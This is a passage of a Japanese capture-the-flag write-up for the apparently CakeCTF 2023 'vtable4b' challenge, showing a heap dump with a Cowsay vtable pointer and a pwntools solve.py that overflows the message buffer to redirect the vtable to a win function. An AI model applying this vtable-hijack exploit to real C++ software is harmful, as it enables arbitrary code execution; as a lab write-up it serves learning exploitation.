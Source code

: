 ```

Last but not least, here is the address of `win` function which you should call to get the flag:
  <win> = 0x562e91c9561a

1. Use cowsay
2. Change message
3. Display heap
>
```

vtable が何かよく知りませんが、とりあえず heap を表示してみます。

```
> 3

  [ address ]    [ heap data ]
               +------------------+
0x562e9240bea0 | 0000000000000000 |
               +------------------+
0x562e9240bea8 | 0000000000000021 |
               +------------------+
0x562e9240beb0 | 0000000000000000 | <-- message (= '')
               +------------------+
0x562e9240beb8 | 0000000000000000 |
               +------------------+
0x562e9240bec0 | 0000000000000000 |
               +------------------+
0x562e9240bec8 | 0000000000000021 |
               +------------------+
0x562e9240bed0 | 0000562e91c98ce8 | ---------------> vtable for Cowsay
               +------------------+                 +------------------+
0x562e9240bed8 | 0000562e9240beb0 |  0x562e91c98ce8 | 0000562e91c956e2 |
               +------------------+                 +------------------+
0x562e9240bee0 | 0000000000000000 |                 --> Cowsay::dialogue
               +------------------+
0x562e9240bee8 | 000000000000f121 |
               +------------------+
```

message に BOF の脆弱性があったので、この表示を頼りに `win` を呼び出してみようと思いました。見たところ、vtable for Cowsay のポインタを `win` のアドレスにしたらよさそうです。

```python:solve.py
from pwn import *

s = remote("vtable4b.2023.cakectf.com", 9000)
s.recvuntil(b"<win> =")
addr_win = int(s.recvline().strip(), 16)
offset = 0x20

s.sendlineafter(b"> ", b"3")
data = s.recvuntil(b"f121")
addrs = []
for d in data.decode().split():
    if d[:2] == "0x":
        addrs.append(d)
vtable_addr = int(addrs[7], 16)

s.sendlineafter(b"> ", b"2")
payload = b"A"*offset
payload += p64(vtable_addr)
payload += p64(addr_win)
s.sendlineafter(b"Message: ", payload)
s.interactive()
```
